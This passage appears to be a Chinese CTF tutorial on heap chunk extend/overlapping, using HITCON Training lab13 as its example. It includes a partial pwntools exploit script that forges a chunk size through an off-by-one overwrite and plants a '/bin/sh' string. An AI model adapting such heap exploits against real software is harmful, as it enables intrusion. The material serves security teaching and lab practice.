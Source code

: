    前向 extend 利用了 **smallbin 的 unlink 机制**，通过**修改 pre_size 域**可以**跨越多个 chunk 进行合并**实现 overlapping。



## 例题：HITCON Training lab13

### 思路：

1. 申请两个堆，通过off_by_one伪造size大小，释放后再申请，造成overlaping。
2. 后续可以任意地址读写。

### 利用：

1. EXP：

   ```python
   #!/usr/bin/env python
   # -*- coding: utf-8 -*-
   
   from pwn import *
   
   r = process('./heapcreator')
   heap = ELF('./heapcreator')
   libc = ELF('./libc.so.6')
   
   
   def create(size, content):
       r.recvuntil(":")
       r.sendline("1")
       r.recvuntil(":")
       r.sendline(str(size))
       r.recvuntil(":")
       r.sendline(content)
   
   
   def edit(idx, content):
       r.recvuntil(":")
       r.sendline("2")
       r.recvuntil(":")
       r.sendline(str(idx))
       r.recvuntil(":")
       r.sendline(content)
   
   
   def show(idx):
       r.recvuntil(":")
       r.sendline("3")
       r.recvuntil(":")
       r.sendline(str(idx))
   
   
   def delete(idx):
       r.recvuntil(":")
       r.sendline("4")
       r.recvuntil(":")
       r.sendline(str(idx))
   
   
   free_got = 0x602018
   create(0x18, "dada")  # 0
   create(0x10, "ddaa")  # 1
   # overwrite heap 1's struct's size to 0x41
   edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
   # trigger heap 1's struct to fastbin 0x40
   # heap 1's content to fastbin 0x20
   ```